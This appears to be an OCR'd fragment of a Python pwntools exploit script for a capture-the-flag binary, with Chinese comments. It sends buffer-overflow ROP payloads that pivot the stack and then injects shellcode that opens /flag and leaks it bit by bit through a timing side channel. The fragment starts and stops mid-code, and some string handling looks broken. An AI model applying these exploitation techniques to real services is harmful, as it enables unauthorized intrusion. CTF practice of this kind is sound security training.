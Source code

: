 ```python

	return 1
	
def getflag(x,y): #将整个程序封进函数里
    _=solve_random()
    if _==1:
        return 2 #如果试了100次都没猜对,则返回异常给主函数(虽然说这是个脚本,没有main函数,但为了方便我就这么叫了)
    #r.interactive()
    try:
        payload1=b'a'*0x20+p64(bss_add+0x20)+p64(read_add)+"\x00"*0x10
        r.send(payload1)
        set_rdx=asm('''
mov     edx, 0x200 ;
lea rax,[rbp-0x100] ;	
ret
nop
nop
nop
''')


        payload2=set_rdx+b'a'*0x10+p64(bss_add+0x200-0x8)+p64(bss_add)+p64(read_add+0x9)+"\x00"*0x8
        r.send(payload2)

        orw=shellcraft.open('/flag')
        orw+=shellcraft.read(3,bss_add+0x400,0x50)

        w1='''

    mov rsi, 0x601E00;
    add rsi, '''+str(x-1)+b' ;'

        w2='''
    mov rdx, byte [rsi] ; 
    shr rdx, '''+str(y)+''';'''
        w3=''' 
    and rdx, 1 ;
    cmp rdx, 0 ;
    je end_if;
    loop:
        jmp loop ;
    end_if:
'''
        orw+=w1
        orw+=w2
        orw+=w3
        #orw+=shellcraft.write(1,bss_add+0x400,0x50)
        payload3=asm(orw).ljust(0x100,'\x00')+p64(0)+p64(bss_add+0x100-0x8)
#        print(len(payload3))
 #       pause()
        r.send(payload3)
 #       pause()
    except EOFError:
        return 2 #如果程序在发送payload3之前eof,则返回异常给主函数
    try:
 #       r.send(payload3)
        r.recv(timeout=0.5)
        return 1 #根据超时还是eof,返回不同的值
    except EOFError:
        return 0

flag_b=[]
for h in range(30):
```